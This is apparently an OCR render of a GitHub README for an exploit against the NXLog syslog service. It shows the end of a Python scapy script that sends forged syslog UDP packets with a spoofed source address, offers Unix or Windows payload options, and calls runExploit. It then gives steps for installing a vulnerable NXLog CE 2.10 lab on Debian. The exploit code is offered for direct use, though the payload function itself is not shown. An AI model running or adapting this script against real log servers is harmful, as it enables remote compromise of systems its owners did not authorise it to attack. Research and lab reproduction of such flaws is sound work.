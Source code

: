 ````python
        syslog = IP(src="192.168.1.10",dst=args.IP)/UDP(sport=666,dport=args.PORT)/Raw(load="<" + str(priority) + ">" + message)
        send(syslog,verbose=args.DEBUG)

def getArguments():
        parser = argparse.ArgumentParser(description="Go h@ck SYSLOG")
        parser.add_argument("-ip", "-IP", dest="IP", type=str, metavar="IP destination", required=True,default=1, help="IP of NXLOG server")
        parser.add_argument("-p", "-P", dest="PORT", type=int, metavar="Port destination", required=False,default=514, help="Port of NXLOG default 514")
        parser.add_argument("-os", "-OS", dest="OS", type=int, metavar="OS", default=1, required=True, help="1 : For unix payload \n 2 : For Windows Paylaod \n 3 : Just for test")
        parser.add_argument("-d", "-D", dest="DEBUG", type=int, metavar="DEBUG", default=0, required=False, help="1 : Debbug enable")
        return parser.parse_args()

def main():
        args = getArguments()
        payload = getPayload(args)
        runExploit(args,payload)
main()
````

---

## 2.1 Linux :
### 2.1.1 Install :

Install Nxlog service on Debian 10 :
````bash
apt-get install libapr1 libdbi1 libssl1.1 multiarch-support

cd /tmp
wget http://ftp.de.debian.org/debian/pool/main/p/perl/libperl5.24_5.24.1-3+deb9u7_amd64.deb
wget http://security.debian.org/debian-security/pool/updates/main/o/openssl1.0/libssl1.0.2_1.0.2u-1~deb9u2_amd64.deb
wget http://ftp.de.debian.org/debian/pool/main/g/glibc/libc-bin_2.28-10_amd64.deb
wget http://ftp.de.debian.org/debian/pool/main/m/man-db/man-db_2.8.5-2_amd64.deb
wget http://ftp.de.debian.org/debian/pool/main/p/perl/perl-modules-5.24_5.24.1-3+deb9u7_all.deb
wget http://cz.archive.ubuntu.com/ubuntu/pool/main/g/gdbm/libgdbm3_1.8.3-13.1_amd64.deb
wget https://nxlog.co/system/files/products/files/348/nxlog-ce_2.10.2150_debian_stretch_amd64.deb

dpkg -i libc-bin_2.28-10_amd64.deb
dpkg -i libgdbm3_1.8.3-13.1_amd64.deb
dpkg -i perl-modules-5.24_5.24.1-3+deb9u7_all.deb
dpkg -i libperl5.24_5.24.1-3+deb9u7_amd64.deb
dpkg -i libssl1.0.2_1.0.2u-1~deb9u2_amd64.deb
dpkg -i man-db_2.8.5-2_amd64.deb
dpkg -i nxlog-ce_2.10.2150_debian_stretch_amd64.deb
````

